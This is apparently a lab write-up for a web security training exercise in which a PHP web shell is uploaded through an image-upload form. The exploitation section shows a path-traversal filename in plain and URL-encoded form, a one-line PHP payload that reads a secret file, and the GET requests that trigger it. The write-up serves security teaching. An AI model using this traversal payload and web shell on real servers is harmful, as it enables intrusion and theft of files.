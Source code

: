 # Web shell upload via path traversal
# Objective
 This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter` 

# Solution
## Analysis

### Upload request example

|![](Images/image-10.png)|
|:--:| 
| *Normal upload request* |
|![](Images/image-11.png)|
| *Path to uploaded file* |

### PHP payload upload test
Application prevents from file execution in user-accessible directories.

|![](Images/image-12.png)|
|:--:| 
| *Normal upload request* |
|![](Images/image-13.png)|
| *PHP payload was not executed* |

## Exploitation

Filename:
```
URL Decoded: filename="../fexploit.php"
URL Encoded: filename="..%2fexploit.php"
```

Payload `exploit.php`:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

|![](Images/image-14.png)|
|:--:| 
| *PHP payload code upload* |
|![](Images/image-15.png)|
| *Path to uploaded file* |
|![](Images/image-16.png)|
| *Triggering uploaded PHP file* |

`GET` request to both of these destination is able to trigger payload:
```
GET /files/avatars/../exploit.php
GET /files/exploit.php
```